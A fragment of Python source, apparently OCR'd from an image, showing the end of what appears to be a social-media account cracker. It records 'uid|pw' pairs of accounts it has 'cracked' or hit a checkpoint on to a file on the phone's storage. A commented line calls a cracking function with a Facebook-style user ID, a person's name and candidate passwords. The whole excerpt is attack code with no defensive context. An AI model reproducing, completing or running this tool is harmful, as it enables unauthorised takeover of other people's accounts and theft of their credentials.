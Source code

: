                     open('/sdcard/MARIXB-CP.txt', 'a').write(uid+'|'+pw+'\n')
                    cps.append(uidX)
            else:continue
        cracked.append(uid)
    except requests.exceptions.ConnectionError:time.sleep(10)
    except Exception as e:print(e)
if __name__=="__main__":
     infinty()
     #bapif("100034118766868|bilal haider id",["4292416"],"2222")
